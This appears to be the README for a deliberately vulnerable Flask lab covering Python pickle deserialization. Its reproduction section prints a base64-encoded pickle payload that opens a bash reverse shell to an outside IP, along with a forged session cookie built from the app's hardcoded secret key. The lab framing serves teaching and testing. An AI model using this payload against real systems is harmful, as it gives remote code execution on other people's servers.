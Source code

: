 # Collection of verified vulnerabilities

## *Easy Flask - Python 反序列化*

### 使用方法
```
./
├── README.MD                   ────介绍文档
├── app.py                      ────flask app路由文件
├── conf.py                     ────flask配置文件
├── source                      ────source样例文件
└── template/                   ────模版目录
```
- 依赖安装
```
➜ python3 -m pip install itsdangerous
➜ python3 -m pip install flask
```
- 运行：`python3 app.py`
```
CTFHUBCTFHUBCTFHUB
 * Serving Flask app "app" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://0.0.0.0:80/ (Press CTRL+C to quit)

```

## 反序列化复现

- [*command.py*(点击查看代码)]() 生成base64加密命令：
```
➜ python command.py
Y19fYnVpbHRpbl9fCmV2YWwKcDAKKFMiX19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2Jhc2ggLWkgPiYvZGV2L3RjcC80Ny43NC4zMS42NC8xMTAwMSAwPiYgMScpIgpwMQp0cDIKUnAzCi4=
```

- [*flask_manage_python3.py*(点击查看代码)]() 生成攻击反序列化session值：

```
➜ python3 flask_manage_python3.py encode -t "{'u':{'b':'Y19fYnVpbHRpbl9fCmV2YWwKcDAKKFMiX19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2Jhc2ggLWkgPiYvZGV2L3RjcC80Ny43NC4zMS42NC8xMTAwMSAwPiYgMScpIgpwMQp0cDIKUnAzCi4='}}" -s 'CTFHUBCTFHUBCTFHUB'

.eJwNys0OgiAAAOB34QkIaVO3DoarFGElpeARlmQ_xCVNne9e3_mbwQfEM9AgBmoVtcpVXh9Kr59RS14VUvVATZpQumOdXEVey21vXNnK0TodMEfFerpKDpsavnOU3wyytqgf9tipvtlXqAjKuyEh5CMOOMETExhxEn7ZORmYSIb_s0wYn1k_sJOHJs3oxSUT6fAGLMsP6_szsg.YJiviQ.l_Q71GoaEtJUOpftylPuSDqzUPU
```

![poc_success.png](../../assets/flask_poc_success.png)